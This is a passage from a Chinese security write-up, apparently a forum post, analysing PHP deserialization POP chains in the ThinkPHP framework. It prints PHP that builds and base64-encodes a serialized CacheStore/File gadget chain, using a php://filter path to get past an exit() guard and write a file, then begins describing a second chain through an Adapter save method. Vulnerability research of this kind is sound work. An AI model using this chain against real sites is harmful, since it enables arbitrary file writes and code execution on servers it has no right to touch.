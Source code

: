 ```php
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "sp4c1ous";
        public function __construct()
        {
            $this->store = new File();
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 1,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'php://filter/write=convert.base64-decode/resource=', //绕过死亡exit
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['trim']
        ];
    }
}
```

可能是因为windows权限问题，这里的测试也没有测试成

### POP 0x02

入口和0x01其实是一个入口，但是再分出来一个分支有点过分了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-8b5024b97447e9fd2464a8dd9668e8fd8b8f7a06.png)

区别在这个save方法，上一个POP链都是从`CacheStore`子类里的save方法出发的，这里是`Adapter`子类

开始审计，这里的这个save方法很危险

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-fdfe1bd4fa29045c7ee98be34ff4fcc1b534de30.png)
